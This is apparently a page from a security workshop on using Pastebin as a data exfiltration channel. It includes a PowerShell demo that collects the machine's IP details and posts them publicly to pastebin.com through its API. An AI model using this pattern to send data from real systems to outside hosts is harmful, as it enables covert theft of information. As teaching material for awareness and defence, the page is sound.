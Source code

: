 ```yaml
---
layout: default
title: Setup Pastebin
nav_order: 5
---
```

# Pastebin
[Famous website](https://pastebin.com/) for “easy copy and paste”
- It's Used in a lot of data exfiltration in companies.
- Obviously, many opensource equivalents exist, so an actual hacker will host their own pastebin.

For our workshop, we will just use a free version right now.

So go to [pastebin](https://pastebin.com/) and create a free account. Consider using [mailnesia.com](https://mailnesia.com/) if you don’t want to use your own private account.

## Get your API-key
On pastebin.com go to the API tab

Find your developer API Key, Never share this with anyone!

![Pastebin developer API Key](../images/developerapikey.png)


Create a new file named logindata.ps1 file with the code below  and copy paste your dev key into that file.

```
$DevKey     =   "PUT-DEVKEY-HERE"
$UserKey    =   "PUT-USER-KEY-HERE"
```
You don't have a UserKey yet.

## First demo

Go to the folder where you previously created logindata.ps1 and create a new file called `new-pastebin.ps1` with the code below. Open your terminal and run new-pastebin.ps1 (don't doubleclick in windows, run it via the Powershell terminal)

1. Observe the results. You will see an URL
2. Visit this URL

```
#Demo 1, Something easy. Userkey won't be used yet so everything is anonymous
. .\logindata.ps1
$Content    =   Invoke-WebRequest -Uri "https://ipinfo.io/json"
$Title      =   "pastebin1"

$Body = @{ 
    api_dev_key         = $DevKey;
    #    api_user_key        = $UserKey;
    api_paste_name	    = $Title;
    api_paste_code      = $Content;
    api_paste_private   = "0"; # 0=public 1=unlisted 2=private
    api_option          = "paste";
    }

Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -UseBasicParsing -Body $Body -Method Post -OutFile $Title.txt
```
